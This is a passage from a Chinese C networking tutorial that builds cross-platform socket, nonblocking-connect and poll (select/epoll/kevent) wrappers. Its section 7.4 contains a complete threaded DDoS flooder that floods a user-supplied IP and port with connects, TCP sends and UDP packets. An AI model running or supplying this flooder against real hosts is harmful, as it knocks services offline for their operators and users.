    if (addr->sin_addr.s_addr == INADDR_NONE) {
        struct hostent * host = gethostbyname(ip);
        if (!host || !host->h_addr)
            RETURN(ErrParam, "check ip is error = %s.", ip);
        // 尝试一种, 默认ipv4
        memcpy(&addr->sin_addr, host->h_addr, host->h_length);
    }
    memset(addr->sin_zero, 0, sizeof addr->sin_zero);

    return SufBase;
}
```
    
    不知道看完 socket(PF_INET, SOCK_DGRAM, IPPROTO_UDP); 有什么话说, 这就是逼
    格. PF_INET 用于声明套接字类型. AF_INET 用于 socket 地址类型. 值一样, 设计意
    图不一样. 第三个参数有点装, 最通用的写法用0代替, 走默认第一个. 其中对于
    socket_close 底层默认采用了优雅的关闭, shutdown 等待服务器所有数据写完毕. 这
    也是 SHUT_WR 宏 winds 实现的意义. 再看 socket_read 的时候, 不知道你是否好奇.
    因为 winds 和 linux 对于 recv 处理非法输入的行为不一样. linux sz = 0 会立即
    返回, 但是 winds 会阻塞住, 算是 winds 一个 bug 吧, 它可能没有检查直接抛入到发
    送层面造成互相等待阻塞了. 我们其实讲了很多, 但你会发现学的很快. 主要原因是我们
    从实践剑宗出发, 快速战斗, 但缺少底蕴. 用的快, 忘记的快, 真真的前辈, 一定是气宗,
    一个绝顶高手一定是剑宗出 ~ 万众五一

    再来看看相关辅助操作, 用于 socket 一些控住操作.

```C
inline int
socket_set_block(socket_t s) {
#ifdef _MSC_VER
    u_long mode = 0;
    return ioctlsocket(s, FIONBIO, &mode);
#else
    int mode = fcntl(s, F_GETFL, 0);
    if (mode == SOCKET_ERROR)
	    return SOCKET_ERROR;
    if (mode & O_NONBLOCK)
	    return fcntl(s, F_SETFL, mode & ~O_NONBLOCK);
    return SufBase;
#endif	
}

inline int
socket_set_nonblock(socket_t s) {
#ifdef _MSC_VER
    u_long mode = 1;
    return ioctlsocket(s, FIONBIO, &mode);
#else
    int mode = fcntl(s, F_GETFL, 0);
    if (mode == SOCKET_ERROR)
	    return SOCKET_ERROR;
    if (mode & O_NONBLOCK)
	    return SufBase;
    return fcntl(s, F_SETFL, mode | O_NONBLOCK);
#endif	
}

static inline int _socket_set_enable(socket_t s, int optname) {
    int ov = 1;
    return setsockopt(s, SOL_SOCKET, optname, (void *)&ov, sizeof ov);
}

inline int
socket_set_reuseaddr(socket_t s) {
    return _socket_set_enable(s, SO_REUSEADDR);
}

inline int 
socket_set_keepalive(socket_t s) {
    return _socket_set_enable(s, SO_KEEPALIVE);
}

static inline int _socket_set_time(socket_t s, int ms, int optname) {
    struct timeval ov = { 0,0 };
    if (ms > 0) {
	    ov.tv_sec = ms / 1000;
	    ov.tv_usec = (ms % 1000) * 1000;
    }
    return setsockopt(s, SOL_SOCKET, optname, (void *)&ov, sizeof ov);
}

inline int
socket_set_recvtimeo(socket_t s, int ms) {
    return _socket_set_time(s, ms, SO_RCVTIMEO);
}

inline int
socket_set_sendtimeo(socket_t s, int ms) {
    return _socket_set_time(s, ms, SO_SNDTIMEO);
}
```

    无外乎围绕 非阻塞, 阻塞 IO 设置, 地址复用, 开启 socket 底层心跳机制...
    其中最喜欢接口如下:

```C
inline int 
socket_get_error(socket_t s) {
    int error;
    socklen_t len = sizeof(error);
    int code = getsockopt(s, SOL_SOCKET, SO_ERROR, (void *)&error, &len);
    return code < 0 ? errno : error;
}
```

    得到 socket 一次操作后的错误信息. 是不是很花心思. 有了它是否瞬间感觉, 一路
    飞云逐日 ~

    随后对于发送和接收模块, 很大众的思路, 只不过加了一些信号中断的判断.

```C
int
socket_recv(socket_t s, void * buf, int len) {
    int r;
    do {
	    r = recv(s, buf, len, 0);
    } while (r == SOCKET_ERROR && errno == EINTR);
    return r;
}

int
socket_recvn(socket_t s, void * buf, int len) {
    int r, nlen = len;
    while (nlen > 0) {
	    r = socket_recv(s, buf, nlen);
	    if (r == 0) break;
	    if (r == SOCKET_ERROR) {
		    RETURN(SOCKET_ERROR, "socket_recv error len = %d, nlen = %d.", len, nlen);
	    }
	    nlen -= r;
	    buf = (char *)buf + r;
    }
    return len - nlen;
}

int
socket_send(socket_t s, const void * buf, int len) {
    int r;
    do {
	    r = send(s, buf, len, 0);
    } while (r == SOCKET_ERROR && errno == EINTR);
    return r;
}

int
socket_sendn(socket_t s, const void * buf, int len) {
    int r, nlen = len;
    while (nlen > 0) {
	    r = socket_send(s, buf, nlen);
	    if (r == 0) break;
	    if (r == SOCKET_ERROR) {
		    RETURN(SOCKET_ERROR, "socket_send error len = %d, nlen = %d.", len, nlen);
	    }
	    nlen -= r;
	    buf = (const char *)buf + r;
    }
    return len - nlen;
}

inline int
socket_recvfrom(socket_t s, void * buf, int len, int flags, sockaddr_t * in, socklen_t * inlen) {
    return recvfrom(s, buf, len, flags, (struct sockaddr *)in, inlen);
}

inline int
socket_sendto(socket_t s, const void * buf, int len, int flags, const sockaddr_t * to, socklen_t tolen) {
    return sendto(s, buf, len, flags, (const struct sockaddr *)to, tolen);
}
```

    还是那句话, 山中不知岁月. 其实本文很多套路都是从一个叫云风的化神前辈遗留下剑气中, 
    参悟得到的. 最终交叉在华山剑法中, 供后来者思索或演练基础.

```C
socket_t
socket_bind(const char * host, uint16_t port, uint8_t protocol, int * family) {
    socket_t fd;
    char ports[sizeof "65535"];
    struct addrinfo hints = { 0 };
    struct addrinfo * ailist = NULL;
    if (host == NULL || *host == 0)
	    host = "0.0.0.0"; // INADDR_ANY

    sprintf(ports, "%hu", port);
    hints.ai_family = AF_UNSPEC;
    if (protocol == IPPROTO_TCP)
	    hints.ai_socktype = SOCK_STREAM;
    else {
	    assert(protocol == IPPROTO_UDP);
	    hints.ai_socktype = SOCK_DGRAM;
    }
    hints.ai_protocol = protocol;

    if (getaddrinfo(host, ports, &hints, &ailist))
	    return INVALID_SOCKET;

    fd = socket(ailist->ai_family, ailist->ai_socktype, 0);
    if (fd == INVALID_SOCKET)
	    goto _failed_fd;

    if (socket_set_reuseaddr(fd))
	    goto _failed;

    if (bind(fd, ailist->ai_addr, (int)ailist->ai_addrlen))
	    goto _failed;
    // Success return ip family
    if (family)
	    *family = ailist->ai_family;

    freeaddrinfo(ailist);
    return fd;

_failed:
    socket_close(fd);
_failed_fd:
    freeaddrinfo(ailist);
    return INVALID_SOCKET;
}

socket_t
socket_listen(const char * host, uint16_t port, int backlog) {
    socket_t fd = socket_bind(host, port, IPPROTO_TCP, NULL);
    if (fd == INVALID_SOCKET)
	    return INVALID_SOCKET;

    if (listen(fd, backlog)) {
	    socket_close(fd);
	    return INVALID_SOCKET;
    }
    return fd;
}
```

    这里 socket_bind 能够绑定一个 host 主机地址. 不仅仅是 ip 地址, 同样包括 url 地
    址. 上面两个接口属于半成品接口, 用于各种其它接口的扩展内嵌部分. socket_bind 函数
    业务能力很强. 实现也是四平八稳. 对于后面使用的 listen 函数, backlog 参数决定
    accept 监测过来的链接套接字队列大小. listen 开启的监听队列内部也有个限定值. 只是
    参考你设置 backlog 是否采纳看系统实现. 所以有了下面一坨封装

```C
inline socket_t
socket_tcp(const char * host, uint16_t port) {
    socket_t s = socket_listen(host, port, SOMAXCONN);
    if (INVALID_SOCKET == s) {
	    RETURN(INVALID_SOCKET, "socket_listen socket error!");
    }
    return s;
}

inline socket_t
socket_udp(const char * host, uint16_t port) {
    socket_t s = socket_bind(host, port, IPPROTO_UDP, NULL);
    if (INVALID_SOCKET == s) {
	    RETURN(INVALID_SOCKET, "socket_bind socket error!");
    }
    return s;
}
```

    随后为基础 socket connect 和 accept 封装一下

```C
inline socket_t
socket_accept(socket_t s, sockaddr_t * addr) {
    socklen_t len = sizeof (sockaddr_t);
    return accept(s, (struct sockaddr *)addr, &len);
}

inline int
socket_connect(socket_t s, const sockaddr_t * addr) {
    return connect(s, (const struct sockaddr *)addr, sizeof(*addr));
}

inline int
socket_connects(socket_t s, const char * ip, uint16_t port) {
    sockaddr_t addr;
    int r = socket_addr(ip, port, &addr);
    if (r < SufBase)
	    return r;
    return socket_connect(s, &addr);
}
```

**客户端核心, 非阻塞的 connect**

    winds 的 select 和 linux 的 select 是两个完全不同的东西. 然而凡人喜欢把
    它们揉在一起. 非阻塞的 connect 业务是个自带超时机制的 connect. 实现机制无
    外乎利用select(也有 epoll的). 这里是个源码软文, 专注解决客户端的跨平台的
    connect 问题. 服务器的 connect 要比客户端多考虑一丁点(放入总轮序器中处理)
    . 有机会再扯. 对于 select 网上资料太多, 几乎都有点不痛不痒. 了解真相推荐
    man and msdn !!!

    那开始吧. 有了上面那些关于跨平台的 socket 封装铺垫. 理解下面的非阻塞 
    connect 都是小意思.

```C
int
socket_connecto(socket_t s, const sockaddr_t * addr, int ms) {
    int n, r;
    struct timeval to;
    fd_set rset, wset, eset;

    // 还是阻塞的connect
    if (ms < 0) return socket_connect(s, addr);

    // 非阻塞登录, 先设置非阻塞模式
    r = socket_set_nonblock(s);
    if (r < SufBase) {
	    RETURN(r, "socket_set_nonblock error!");
    }

    // 尝试连接一下, 非阻塞connect 返回 -1 并且 errno == EINPROGRESS 表示正在建立链接
    r = socket_connect(s, addr);
    if (r >= SufBase) goto _return;

    // 链接还在进行中, linux这里显示 EINPROGRESS，winds应该是 WASEWOULDBLOCK
    if (errno != ECONNECTED) {
	    CERR("socket_connect error r = %d!", r);
	    goto _return;
    }

    // 超时 timeout, 直接返回结果 ErrBase = -1 错误
    r = ErrBase;
    if (ms == 0) goto _return;

    FD_ZERO(&rset); FD_SET(s, &rset);
    FD_ZERO(&wset); FD_SET(s, &wset);
    FD_ZERO(&eset); FD_SET(s, &eset);
    to.tv_sec = ms / 1000;
    to.tv_usec = (ms % 1000) * 1000;
    n = select((int)s + 1, &rset, &wset, &eset, &to);
    // 超时直接滚
    if (n <= 0) goto _return;

    // 当连接成功时候,描述符会变成可写
    if (n == 1 && FD_ISSET(s, &wset)) {
	    r = SufBase;
	    goto _return;
    }

    // 当连接建立遇到错误时候, 描述符变为即可读又可写
    if (FD_ISSET(s, &eset) || n == 2) {
	    socklen_t len = sizeof n;
	    // 只要最后没有 error那就 链接成功
	    if (!getsockopt(s, SOL_SOCKET, SO_ERROR, (char *)&n, &len) && !n)
		    r = SufBase;
    }

_return:
    socket_set_block(s);
    return r;
}
```

    核心在于 select 调用触发的异常问题上. 还有 errno 信号的判断差异. 最后来个
    封装实战扩展版本

```C
socket_t
socket_connectos(const char * host, uint16_t port, int ms) {
    int r;
    sockaddr_t addr;
    socket_t s = socket_stream();
    if (s == INVALID_SOCKET) {
	    RETURN(INVALID_SOCKET, "socket_stream is error!");
    }

    // 构建ip地址
    r = socket_addr(host, port, &addr);
    if (r < SufBase)
	    return r;

    r = socket_connecto(s, &addr, ms);
    if (r < SufBase) {
	    socket_close(s);
	    RETURN(INVALID_SOCKET, "socket_connecto host port ms = %s, %u, %d!", host, port, ms);
    }

    return s;
}
```

    当你的客户端, 想和服务器开始通信, 只需要调用 socket_connectos(host, port, ms)
    后面就可以等待它的回音. 是不是很简单, 一切都妥了. 到这里也许你应该是个合格码农了. 
    因为基础功底修炼的有些火苗了, 后面的实践也许更加真实, 或者简单. 
    又或许是 ......


## 7.4 金丹演练, 来个阅读理解吧.

    有了上面关于跨平台的 socket 封装, 不妨写个简单的测试 demo. 很多同学也许会遇到
    ddos 攻击(流量攻击导致网卡超载, 服务器拒绝服务) . 其实攻击原理很简单, 对服务器
    暴露在外的地址和端口疯狂发送流量包. 我们阅读理解的思路, 很简单疯狂 connect, 
    疯狂 write , 统计下数据看最终效果怎么样 ~

```C
#include "scsocket.h"

#define _INT_HOST   (255)	
#define _INT_TOUT   (3000)

struct targ {
    sockaddr_t addr;
    char ts[BUFSIZ];
    char us[BUFSIZ];

    // 攻击次数统计
    uint64_t connect;
    uint64_t tcpsend;
    uint64_t udpsend;
};

// 得到玩家输入的地址信息
void addr_input(sockaddr_t * addr);

// 检查IP是否合法
bool addr_check(sockaddr_t * addr);

// 目前启动3个类型线程, 2个是connect, 2个是connect + send 2个是 udp send
void ddos_run(struct targ * arg);

//
// ddos attack entrance
//
int main(void) {
    // 记录详细攻击的量, ts and us 是脏数据随便发
    struct targ arg;
    arg.udpsend = arg.tcpsend = arg.connect = 0;

    // 得到玩家的地址信息
    addr_input(&arg.addr);

    if (!addr_check(&arg.addr))
	    CERR_EXIT("ip or port check is error!!!");

    // 开始要启动线程了
    ddos_run(&arg);

    // :> 开始统计数据
    puts("connect count		tcp send count			udp send count");
    for (;;) {
	    printf(" %"PRIu64"			 %"PRIu64"				 %"PRIu64"\n"
            , arg.connect, arg.tcpsend, arg.udpsend);
	    sh_msleep(_INT_TOUT);
    }
    return EXIT_SUCCESS;
}

// 得到玩家输入的地址信息
void
addr_input(sockaddr_t * addr) {
    bool flag = true;
    int rt = 0;
    uint16_t port;
    char ip[_INT_HOST + 1] = { 0 };

    puts("Please input ip and port, example :> 127.0.0.1 8088");
    printf(":> ");

    // 自己重构scanf, 解决注入漏洞
    while (rt < _INT_HOST) {
	    char c = getchar();
	    if (isspace(c)) {
		    if (flag)
			    continue;
		    break;
	    }
	    flag = false;
	    ip[rt++] = c;
    }
    ip[rt] = '\0';

    rt = scanf("%hu", &port);
    if (rt != 1)
	    CERR_EXIT("scanf_s addr->host = %s, port = %hu.", ip, port);

    printf("connect check input addr ip:port = %s:%hu.\n", ip, port);

    // 下面就是待验证的地址信息
    if (socket_addr(ip, port, addr) < SufBase)
	    CERR_EXIT("socket_addr ip , port is error = %s, %hu.", ip, port);
}

// 检查IP是否合法
bool
addr_check(sockaddr_t * addr) {
    int r;
    socket_t s = socket_stream();
    if (s == INVALID_SOCKET) {
	    RETURN(false, "socket_stream is error!!");
    }

    r = socket_connecto(s, addr, _INT_TOUT);
    socket_close(s);
    if (r < SufBase) {
	    RETURN(false, "socket_connecto addr is timeout = %d.", _INT_TOUT);
    }

    return true;
}

// connect 链接
static void _connect(struct targ * targ) {
    // 疯狂connect
    for (;;) {
	    socket_t s = socket_stream();
	    if (s == INVALID_SOCKET) {
		    CERR("socket_stream is error!");
		    continue;
	    }

	    // 精确统计, 一定要连接成功
	    while (socket_connect(s, &targ->addr) < SufBase)
		    ;

	    ++targ->connect;
	    socket_close(s);
    }
}

// connect + send 连接
static void _tcpsend(struct targ * targ) {
    // 疯狂connect
    for (;;) {
	    socket_t s = socket_stream();
	    if (s == INVALID_SOCKET) {
		    CERR("socket_stream is error!");
		    continue;
	    }

	    // 精确统计, 一定要连接成功
	    while (socket_connect(s, &targ->addr) < SufBase)
		    ;

	    // 疯狂发送数据包
	    while (socket_send(s, targ->ts, BUFSIZ) >= SufBase)
		    ++targ->tcpsend;

	    socket_close(s);
    }
}

// udp send 连接
static void _udpsend(struct targ * targ) {
    for (;;) {
	    socket_t s = socket_dgram();
	    if (s == INVALID_SOCKET) {
		    CERR("socket_stream is error!");
		    continue;
	    }

	    // 疯狂发送数据包
	    while (socket_sendto(s, targ->us, BUFSIZ, 0, &targ->addr, sizeof(targ->addr)) >= SufBase)
		    ++targ->udpsend;

	    socket_close(s);
    }
}

// 目前启动3个类型线程, 2个是connect, 2个是connect + send 2个是 udp send
void
ddos_run(struct targ * arg) {
    // 创建两个 connect 线程
    CERR_IF(async_run(_connect, arg));
    CERR_IF(async_run(_connect, arg));

    // 创建两个 connect + send 线程
    CERR_IF(async_run(_tcpsend, arg));
    CERR_IF(async_run(_tcpsend, arg));

    // 创建两个 udp send 线程
    CERR_IF(async_run(_udpsend, arg));
    CERR_IF(async_run(_udpsend, arg));
}
```

    最终效果图



    主要围绕 _connect, _tcpsend, _udpsend 三个业务展开. 关于 CERR_IF 和 async_run
    都是现代封装的便利操作. 只要你拥有足够的流量, 哪怕再小的枪都能让老师傅闻风丧胆. 这
    些都是妖魔战的绝招. 有兴趣可以朝着安全方面深入, 了解更加针对的操作系统知识. 这里主
    打游戏服务器中底层库构建, C 剑技上面修炼 ~

    到这强行突破金丹, 以后就是时间疯狂打磨. 十年磨一剑, 霜刃未曾试 ~
    原本关于 C 修炼到这里, 是完工了, 因为世间套路都抵不过时间, 用心去封装 ~

    也许再一次重新求索, 带上你的剑 ---88--

## 7.6 server poll 一股至强的气息

    很久以前幻想着能和那些 元婴大佬, 化神真君一样御剑飞行, 一步千里. (现在还在幻
    想) 偶幸得到一部元婴功法, 分享参悟, 说不定江湖中下次会留下你的传说 ~

    基于注册的套路, 真的和吃屎一样来回绕. 何必呢, 用的了那么纠缠吗. 倒不如从
    底层分层依次冒上来, 最终来个元气弹. 

    最后一招, 在这元气稀薄的大陆哈哈, 元婴灭世, ta 给你你要的一切 ~

### 7.6.1 server poll 文件描述符监测

    从 select , poll, epoll, iocp, kevent 这一切的一切到底经历过什么. 当然这
    些有着相似的接口, 何不一块来个接口统一封装呢. 这里有你满足的一切. 不妨看下面
    完整接口. 

```C
#ifndef _H_SIMPLEC_SOCKET_POLL
#define _H_SIMPLEC_SOCKET_POLL

#include "scsocket.h"

#ifdef _MSC_VER
typedef struct select_poll * poll_t;
#else
typedef int poll_t;		// * 也就大师背后, 拾人牙慧
#endif

struct event {
	void * s;
	bool read;
	bool write;
	bool error;
};

//
// sp_create	- 创建一个poll模型
// sp_invalid	- 检查这个poll模型是否有问题, true表示有问题
// sp_delete	- 销毁这个poll模型
//
extern poll_t sp_create(void);
extern bool sp_invalid(poll_t sp);
extern void sp_delete(poll_t sp);

//
// sp_add		- 添加监测的socket, 并设置读模式, 失败返回true
// sp_del		- 删除监测的socket
// sp_write		- 修改当前socket, 并设置为写模式
//
extern bool sp_add(poll_t sp, socket_t sock, void * ud);
extern void sp_del(poll_t sp, socket_t sock);
extern void sp_write(poll_t sp, socket_t sock, void * ud, bool enable);

//
// sp_wait		- poll 的 wait函数, 等待别人自投罗网
// sp		: poll 模型
// e		: 返回的操作事件集
// max		: e 的最大长度
// return	: 返回待操作事件长度, <= 0 表示失败
//
extern int sp_wait(poll_t sp, struct event e[], int max);

#endif // !_H_SIMPLEC_SOCKET_POLL
```

    首先明确一点, 这套库主打 unix / linux. 当初那个化神前辈只写了个 unix kevent, 
    linux epoll 部分. 后面为了方便 CL Debug 主动加了 winds select 实现. 方便测
    试监测. 
    
### 7.6.2 select 实现

    有了上面 socket_poll 接口定义, 我们开始搞起 ~
    先来个 winds 实现, 基于 select 按照上面接口标准设计出我们要的

socket_poll$select.h

```C
#if defined(_MSC_VER)

#include "socket_poll.h"

struct sevent {
	void * ud;
	bool write;
	socket_t fd;
};

struct select_poll {
	fd_set rsd;
	fd_set wsd;
	fd_set esd;
	uint16_t n;
	struct sevent evs[FD_SETSIZE];
};

inline poll_t 
sp_create(void) {
	return calloc(1, sizeof(struct select_poll));
}

inline bool 
sp_invalid(poll_t sp) {
	return NULL == sp;
}

inline void 
sp_delete(poll_t sp) {
	free(sp);
}

bool 
sp_add(poll_t sp, socket_t sock, void * ud) {
	struct sevent * sev, * eev;
	if (sp->n >= FD_SETSIZE)
		return true;

	sev = sp->evs;
	eev = sp->evs + sp->n;
	while (sev < eev) {
		if (sev->fd == sock)
			break;
		++sev;
	}
	if (sev == eev) {
		++sp->n;
		sev->fd = sock;
	}

	sev->ud = ud;
	sev->write = false;
	return false;
}

void 
sp_del(poll_t sp, socket_t sock) {
	struct sevent * sev = sp->evs, * eev = sp->evs + sp->n;
	while (sev < eev) {
		if (sev->fd == sock) {
			--sp->n;
			while (++sev < eev)
				sev[-1] = sev[0];
			break;
		}
		++sev;
	}
}

void 
sp_write(poll_t sp, socket_t sock, void * ud, bool enable) {
	struct sevent * sev = sp->evs, * eev = sp->evs + sp->n;
	while (sev < eev) {
		if (sev->fd == sock) {
			sev->ud = ud;
			sev->write = enable;
			break;
		}
		++sev;
	}
}

int 
sp_wait(poll_t sp, struct event e[], int max) {
	int r, i, n, retn;
	socklen_t len = sizeof r;
	FD_ZERO(&sp->rsd);
	FD_ZERO(&sp->wsd);
	FD_ZERO(&sp->esd);

	for (i = 0; i < sp->n; ++i) {
		struct sevent * sev = sp->evs + i;
		FD_SET(sev->fd, &sp->rsd);
		if (sev->write)
			FD_SET(sev->fd, &sp->wsd);
		FD_SET(sev->fd, &sp->esd);
	}

	n = select(0, &sp->rsd, &sp->wsd, &sp->esd, NULL);
	if (n <= 0)
		RETURN(n, "select n = %d", n);

	for (retn = i = 0; i < sp->n && retn < max && retn < n; ++i) {
		struct sevent * sev = sp->evs + i;
		e[retn].read = FD_ISSET(sev->fd, &sp->rsd);
		e[retn].write = sev->write && FD_ISSET(sev->fd, &sp->wsd);
		
		r = 1;
		if (FD_ISSET(sev->fd, &sp->esd)) {
			// 只要最后没有 error那就OK | 排除带外数据
			if (getsockopt(sev->fd, SOL_SOCKET, SO_ERROR, (char *)&r, &len) || r)
				r = 0;
		}

		// 保存最终错误信息
		if (e[retn].read || e[retn].write || !r) {
			e[retn].s = sev->ud;
			e[retn].error = !!r;
			++retn;
		}
	}
	return retn;
}

#endif
```

    核心在于 sp_wait 实现, 使用了 select 所有的参数. 核心看 sp->esd 用法加上了错误
    验证机制. 当你学习到这里我希望你能够明白这些代码的意义了. 因为不是个让你入门的解
    释. 而是让你理解了套路, 能够立即为线上框架贡献代码的思路.

### 7.6.3 epoll 实现

    其实这套接口最大的服务对象就是 linux 服务器. 所以 epoll 封装起来特别顺手. 核心
    很短

socket_poll$epoll.h

```C
#if defined(__linux__)

#include "socket_poll.h"
#include <sys/epoll.h>

inline poll_t 
sp_create(void) {
	return epoll_create1(0);
}

inline bool 
sp_invalid(poll_t sp) {
	return 0 > sp;
}

inline void 
sp_delete(poll_t sp) {
	close(sp);
}

inline bool 
sp_add(poll_t sp, socket_t sock, void * ud) {
	struct epoll_event ev = { EPOLLIN };
	ev.data.ptr = ud;
	return epoll_ctl(sp, EPOLL_CTL_ADD, sock, &ev) < 0;
}

inline void 
sp_del(poll_t sp, socket_t sock) {
	epoll_ctl(sp, EPOLL_CTL_DEL, sock, NULL);
}

inline void 
sp_write(poll_t sp, socket_t sock, void * ud, bool enable) {
	struct epoll_event ev;
	ev.events = EPOLLIN | (enable ? EPOLLOUT : 0);
	ev.data.ptr = ud;
	epoll_ctl(sp, EPOLL_CTL_MOD, sock, &ev);
}

int 
sp_wait(poll_t sp, struct event e[], int max) {
	struct epoll_event ev[max];
	int i, n = epoll_wait(sp, ev, max, -1);

	for (i = 0; i < n; ++i) {
		uint32_t flag = ev[i].events;
		e[i].s = ev[i].data.ptr;
		e[i].write = flag & EPOLLOUT;
		e[i].read = flag & (EPOLLIN | EPOLLHUP);
		e[i].error = flag & EPOLLERR;
	}

	return n;
}

#endif
```

    sp_wait -> epoll_wait 之后开始 read, write, error 判断. 其中对于 EPOLLHUP 解释
    是当 socket 的一端认为对方发来了一个不存在的4元组请求的时候, 会回复一个 RST 响应, 
    在 epoll 上会响应为 EPOLLHUP 事件, 目前查资料已知的两种情况会发响应 RST. 
        [1] 当客户端向一个没有在listen的服务器端口发送的connect的时候服务器会返回一个
            RST 因为服务器根本不知道这个4元组的存在 
        [2] 当已经建立好连接的一对客户端和服务器, 客户端突然操作系统崩溃, 或者拔掉电源
            导致操作系统重新启动(kill pid或者正常关机不行的, 因为操作系统会发送 FIN 给
            对方). 这时服务器在原有的4元组上发送数据, 会收到客户端返回的 RST, 因为客户
            端根本不知道之前这个4元组的存在
    这么做的原因是能够让下一次 read 返回 -1, 监测出 error, 走 close 操作.

### 7.6.4 kevent 实现

    对于 kevent unix poll 封装, 纯属复制. 没有亲自测试, 有兴趣的可以尝试使用.

socket_poll$kevent.h

```C
#if defined(__APPLE__) || defined(__FreeBSD__) || defined(__OpenBSD__) || defined (__NetBSD__)

#include "socket_poll.h"
#include <sys/event.h>

inline poll_t
sp_create(void) {
	return kqueue();
}

inline bool
sp_invalid(poll_t sp) {
	return 0 > sp;
}

inline void
sp_delete(poll_t sp) {
	close(sp);
}

bool
sp_add(poll_t sp, socket_t sock, void * ud) {
	struct kevent ke;
	EV_SET(&ke, sock, EVFILT_READ, EV_ADD, 0, 0, ud);
	if (kevent(sp, &ke, 1, NULL, 0, NULL) < 0 || ke.flags & EV_ERROR)
		return true;

	EV_SET(&ke, sock, EVFILT_WRITE, EV_ADD, 0, 0, ud);
	if (kevent(sp, &ke, 1, NULL, 0, NULL) < 0 || ke.flags & EV_ERROR) {
		EV_SET(&ke, sock, EVFILT_READ, EV_DELETE, 0, 0, NULL);
		kevent(sp, &ke, 1, NULL, 0, NULL);
		return true;
	}
	EV_SET(&ke, sock, EVFILT_WRITE, EV_DISABLE, 0, 0, ud);
	if (kevent(sp, &ke, 1, NULL, 0, NULL) < 0 || ke.flags & EV_ERROR) {
		sp_del(sp, sock);
		return true;
	}
	return false;
}

inline void
sp_del(poll_t sp, socket_t sock) {
	struct kevent ke;
	EV_SET(&ke, sock, EVFILT_READ, EV_DELETE, 0, 0, NULL);
	kevent(sp, &ke, 1, NULL, 0, NULL);
	EV_SET(&ke, sock, EVFILT_WRITE, EV_DELETE, 0, 0, NULL);
	kevent(sp, &ke, 1, NULL, 0, NULL);
}

void
sp_write(poll_t sp, socket_t sock, void * ud, bool enable) {
	struct kevent ke;
	EV_SET(&ke, sock, EVFILT_WRITE, enable ? EV_ENABLE : EV_DISABLE, 0, 0, ud);
	if (kevent(sp, &ke, 1, NULL, 0, NULL) < 0 || ke.flags & EV_ERROR) {
		// todo: check error
	}
}

int
sp_wait(poll_t sp, struct event e[], int max) {
	struct kevent ev[max];
	int i, n = kevent(sp, NULL, 0, ev, max, NULL);

	for (i = 0; i < n; ++i) {
		e[i].s = ev[i].udata;
		e[i].write = ev[i].filter == EVFILT_WRITE;
		e[i].read = ev[i].filter == EVFILT_READ;
		e[i].error = false;	// kevent has not error event
	}

	return n;
}

#endif
```

    到这里关于 socket_poll 模型在不同平台上已经实现了. 

socket_poll.c    

```C
#include "socket_poll$epoll.h"
#include "socket_poll$kevent.h"
#include "socket_poll$select.h"
```    

    到这里不妨写个测试 demo

### 7.6.5 poll demo

    不妨看下面, 监听 socket connect 过来, 

```C
#include "socket_poll.h"

#define _USHORT_PORT	(8088u)

//
// 参照云风的思路自己设计了 window 部分代码
// https://github.com/cloudwu/skynet/blob/master/skynet-src/socket_poll.h
//
int main(void) {
    int n;
    poll_t poll;
    socket_t sock;
    struct event evs[FD_SETSIZE];

    // 开始构建一个 socket
    sock = socket_tcp(NULL, _USHORT_PORT);
    if (sock == INVALID_SOCKET)
        return;

    poll = sp_create();
    assert(!sp_invalid(poll));

    if (sp_add(poll, sock, NULL))
        CERR("sp_add sock = is error!");
    else {
        // 开始等待数据
        printf("sp_wait [127.0.0.1:%hu] listen ... \n", _USHORT_PORT);
        n = sp_wait(poll, evs, LEN(evs));
        printf("sp_wait n = %d. 一切都是那么意外!\n", n);
    }

    sp_delete(poll);
    return socket_close(sock);
}
```

    test_socket_poll 只做了一件小事情, 开启 poll 监听等待一个东西过来. 随后就
    结束. 期间输出你所展现的数据.


## 7.7 阅读理解 pipe

    网络 IO 我们自己写的时候, 高效的都是异步走的. 那么异步过程中需要控制的. 怎么
    管理呢. 有人想到需要有消息队列进行控制. 确实, 只不过这里用到了另一个小技巧. 采
    用 linux 匿名管道 pipe. 很巧妙. 不妨先移植到 winds 上面辅助测试.

```C
#if defined(_MSC_VER)

//
// pipe - 移植 linux函数, 通过 WinSock
// pipefd	: 索引0表示read, 1表示write
// return	: zero is error, -1 is returned
// 
extern int pipe(socket_t pipefd[2]);

#endif
```

    同样实现起来很简单, 利用的创建两个本地通信的 socket 进行处理. 

```C
int
pipe(socket_t pipefd[2]) {
	socket_t s;
	sockaddr_t name = { AF_INET };
	socklen_t nlen = sizeof name;
	name.sin_addr.s_addr = htonl(INADDR_LOOPBACK);

	// 开启一个固定 socket
	if ((s = socket_stream()) == INVALID_SOCKET) 
        return ErrBase;

	if (bind(s, (struct sockaddr *)&name, nlen) < 0)
        return socket_close(s), ErrBase;
	if (listen(s, SOMAXCONN) < 0) 
        return socket_close(s), ErrBase;

	// 得到绑定的数据
	if (getsockname(s, (struct sockaddr *)&name, &nlen) < 0)
        return socket_close(s), ErrBase;

	// 开始构建互相通信的socket
	if ((pipefd[0] = socket_stream()) == INVALID_SOCKET)
        return socket_close(s), ErrBase;

	if (socket_connect(pipefd[0], &name) < 0)
        return socket_close(s), ErrBase;

	// 可以继续添加, 通信协议来避免一些意外
	if ((pipefd[1] = socket_accept(s, &name)) == INVALID_SOCKET)
        return socket_close(s), socket_close(pipefd[0]), ErrBase;

    return socket_close(s), SufBase;
}
```

    这就保证了创建了两个独有的 socket 进行通信, 伪装成管道的两个读写端. 


### 7.7.1 阅读理解 pipe 

    我们不妨对管道封装一点

scpipe.h

```C
#ifndef _H_SIMPLEC_SCPIPE
#define _H_SIMPLEC_SCPIPE

#include "scsocket.h"

#if defined(_MSC_VER)

//
// pipe - 移植 linux函数, 通过 WinSock
// pipefd	: 索引0表示read, 1表示write
// return	: zero is error, -1 is returned
// 
extern int pipe(socket_t pipefd[2]);

#endif

typedef struct scpipe * scpipe_t;

//
// scpipe_create    - 得到一个父子进程间通信的管道
// scpipe_delete    - 关闭打开的管道
// scpipe_recv      - 管道接收数据, 128K
// scpipe_send      - 管道发送数据, 推荐 BUFSIZ 
//
extern scpipe_t scpipe_create(void);
extern void scpipe_delete(scpipe_t spie);
extern int scpipe_recv(scpipe_t spie, void * data, size_t len);
extern int scpipe_send(scpipe_t spie, const void * data, size_t len);

#endif // !_H_SIMPLEC_SCPIPE
```

    细化了管道的封装, 创建, 销毁, 接收, 发送等. 首先看看 linux 上面封装

```C
struct scpipe {
	int recv;
	int send;
};

scpipe_t 
scpipe_create(void) {
	scpipe_t spie = malloc(sizeof(struct scpipe));
	assert(NULL != spie);

	if (pipe((int *)spie) < 0) {
		free(spie);
		RETURN(NULL, "pipe is error!");
	}

	return spie;
}


void 
